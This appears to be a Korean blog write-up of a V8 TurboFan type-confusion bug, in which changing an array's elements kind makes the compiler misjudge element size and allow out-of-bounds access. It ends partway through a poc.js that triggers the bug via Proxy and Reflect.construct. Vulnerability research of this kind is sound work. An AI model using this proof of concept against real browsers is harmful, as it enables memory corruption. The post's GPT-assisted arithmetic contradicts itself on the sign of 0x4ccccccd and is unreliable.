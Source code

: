 <br><br><br>

smi타입으로 인식하기 때문에 빨간 상자 기준으로 3번째 박스를 a[2]로 인식하게 되어 저 값이 나오게 되었던겁니다.
근데 이때 v8의 경우 정수는 2를 곱해서 메모리에 저장하기에 해당 값을 2로 나눠서 반환을 해줍니다.

계산과정을 GPT의 힘을 빌려보면

계산 과정:
0x9999999a는 10진수로 2576980378입니다. <br>
정수를 배열에 저장할 때 2를 곱했다면, 배열에서 읽을 때는 2로 나눠야 합니다: <br>

0x9999999a÷2=0x4ccccccd <br>
0x4ccccccd는 부호 있는 정수로 해석할 때 음수로 표현됩니다. 이는 2의 보수법으로 처리되기 때문입니다: <br>
0x4ccccccd의 이진수 표현: <br>
01001100 11001100 11001100 11001101 <br> 
이는 부호 있는 32비트 정수로 해석되며, 부호 비트가 0이므로 양수입니다. <br> 
이 값을 Turbofan이 부호 있는 정수(Signed Int)로 변환하면서 -858993459로 반환됩니다. <br>

<br><br><br>

![0123_0.png](https://github.com/Adawn0106/Adawn0106.github.io/raw/main/assets/img/posts/20250123/0123_0.png)

<br><br><br>

사진의 값과 같음을 알 수 있습니다. 
그래서  TurboFan의 입장에선 4바이트로 접근을 하지만 배열 자체는 8바이트로 저장하는 형태로 바뀌었음으로 
인덱싱을 예를 들어 1 , 2 , 3 만큼씩만 가능하다고 하였을 때 실제 양은 24바이트여야겠지만 4바이트로 계산하는 TurboFan의 경우
최대가 3이기 때문에 총 12바이트까지만 접근할 수 있게 되는 것입니다.

다음 예시는 Double 배열을 Object 배열로 바꾸는 것인데 이것은 위와 다르게 2배가 줄어드는 것이 아닌 늘어나는 예시입니다.
object의 주소는 pointer compression이 적용되어 4바이트 형태로 저장되므로 배열의 원소의 크기를 8바이트에서 4바이트로 줄일 수 있습니다.
아래는 소스코드입니다.

<br><br><br>

```js
/* poc.js */

// Copyright 2020 the V8 project authors. All rights reserved.
// Use of this source code is governed by a BSD-style license that can be
// found in the LICENSE file.

// Flags: --allow-natives-syntax

let a = [0.1, 0.2, 0.3, 0.4, 0.5, 0.6, 0.7];
a.pop();
a.pop();
a.pop();

function empty() { }

function f(p) {
    a.push(Reflect.construct(empty, arguments, p) ? 1.1 : 1.1);
}

let p = new Proxy(Object, {
    get: () => {
        a[1] = {};
        % DebugPrint(a);
        return Object.prototype;
    }
});

function main(p) {
    f(p);
```